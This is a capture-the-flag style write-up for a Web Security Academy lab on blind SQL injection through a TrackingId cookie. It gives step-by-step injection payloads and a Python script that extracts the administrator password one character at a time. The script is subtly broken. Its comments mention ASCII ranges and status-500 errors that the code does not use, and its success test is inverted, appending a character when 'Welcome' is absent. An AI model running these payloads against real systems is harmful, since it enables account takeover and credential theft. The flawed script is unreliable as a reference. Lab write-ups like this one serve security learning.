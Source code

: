 * Title: Blind SQL injection with conditional responses

* Goal: Log in as the administrator user.

* Vulnerability Location: The TrackingId section in the Cookie
 (For this lab I'm gonna use Burp Suite. Intercept the network and send it to repeater to follow this write-up)

* Payload Used:

  ```' AND '1'='1``` , ```' AND (SELECT 'a' FROM users LIMIT 1)='a' --``` , 
  ```' AND (SELECT 'a' FROM users WHERE username='administrator')='a' --``` ,
  ```' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) = 20)='a' --``` ,
  ```' AND (SELECT 'a' FROM users WHERE username='administrator' AND SUBSTRING(password, 1, 1) < 'm')='a' --```

* Steps:

  1. Check if the input is injectable. Inject: ```' AND '1'='1```
       If the page has the word "Welcome back", the input is being processed by SQL. That means we can move forward.

  2. Check if the users table exists. Inject: ```' AND (SELECT 'a' FROM users LIMIT 1)='a' --```  
       If the page still has the word "Welcome back", the users table exists and is accessible.

  3. Check if the administrator user exists. Inject: ```' AND (SELECT 'a' FROM users WHERE username='administrator')='a' -- ```
       If the page has the word "Welcome back", the administrator user is present in the table.

  4. Find the password length. Inject: ```' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) = 20)='a' --```  
       Try different values for LENGTH(password) until the page  has the word "Welcome back". That tells you the exact length of the password.

       FYI: every password I encounter in this module has a password that is 20 characters long and it only include lowercase alphanumeric characters.

  5. Extract the password one character at a time Inject: ```' AND (SELECT 'a' FROM users WHERE username='administrator' AND SUBSTRING(password, 1, 1) < 'm')='a' --```
       This checks if the first character is alphabetically less than 'm'. If the page has the word "Welcome back", the condition is true. 

       Use binary search or loop through characters to find the correct one. Then move to the next character: ```SUBSTRING(password, 2, 1)```, and try ```SUBSTRING(password, 3, 1)```... 

       Repeat until you get the full password, which I personally think is painful and boring. And that's why we're are gonna automate this using a python script.

* Python Script

  ```
              # Import necessary modules: urllib3, urllib.parse, sys, requests
        import urllib.parse
        import urllib3
        import sys
        import requests
        
        # Disable SSL warnings from urllib3
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        
        # Define a function called password_injector with parameters: url, base_tracking_id, session_id
        def password_injector(url, base_tracking_id, session_id):
        
            # Initialize an empty string to store the extracted password
            extracted_password = ""
        
            #Alphanumeric characters The password contains
            charset = "abcdefghijklmnopqrstuvwxyz0123456789"
        
            # Loop through each character position in the password (1 to 20)
            for i in range(1,21):
        
                # Loop through ASCII characters from 48 to 125
                for ch in charset:
        
                    # Create a SQL injection payload to check if the character at position i matches chr(j)
                    sql_injection_payload = f"' AND (SELECT SUBSTRING(password, {i},1) FROM users WHERE username='administrator')='{ch}'--"
        
                    # URL-encode the payload
                    sql_injection_payload_encoded = urllib.parse.quote(sql_injection_payload)
        
                    # Construct cookies with the encoded payload appended to the TrackingId and include session ID
                    cookies = {"TrackingId" : base_tracking_id + sql_injection_payload_encoded, "session" : session_id}
        
                    # Send a GET request to the target URL with the cookies and SSL verification disabled
                    response = requests.get(url, cookies=cookies, verify=False)
        
                    # If the response status code is 500 (indicating a match and error from division by zero):
                    if "Welcome" not in response.text:
                        
                        # Print the current guess character along with the known part of the password
                        sys.stdout.write('\r' + extracted_password + ch)
                        sys.stdout.flush()
        
                    else:
                        # Append the matching character to the password string
                        extracted_password += ch
        
                        # Print the current password progress on the same line
                        sys.stdout.write('\r' + extracted_password)
                        sys.stdout.flush()
                        
                        # Break out of the inner loop to move to the next character position
                        break
        
            print(f"Extracted Password: {extracted_password}")
        
        
        # Define a main function
        def main():
        
            # Check if the number of command-line arguments is correct
            if len(sys.argv) != 4:
        
                # If not, print usage instructions and exit
                print(f"Usage: {sys.argv[0]} <url> tracking_id session_id")
                print(f"Example: {sys.argv[0]} https://0ac5005103a1e7f580381c3600720043.web-security-academy.net UQTMpS4wWgjxNFwz 2jDhZO5t4nfaxS0xZyzKvPwDVw4w4Ed7")
                sys.exit(-1)
        
        
            # Extract url, tracking_id, and session_id from command-line arguments
            url = sys.argv[1]
            tracking_id = sys.argv[2]
            session_id = sys.argv[3]
        
            # Print a message indicating password retrieval is starting
            print("[+] Password Retrieving Started...")
        
            # Call the password_injector function with the provided arguments
            password_injector(url, tracking_id, session_id)
        
        # Run the main function if the script is executed directly
        if __name__ == "__main__":
            main()
  ```


* Takeaway: Blind SQL injection is slow and annoying, but it works. You don’t get direct output — you just watch how the page reacts to true or false conditions. If the page says “Welcome back,” your guess was right. If it doesn’t, try again.

This lab teaches you how to extract data one character at a time using logic, patience, and a bit of brute force. It’s not flashy, but it’s reliable — and once you automate it with a script, it becomes way less painful.

The key is knowing how to ask the database yes/no questions and read the answer from the page behavior. That’s the whole game.
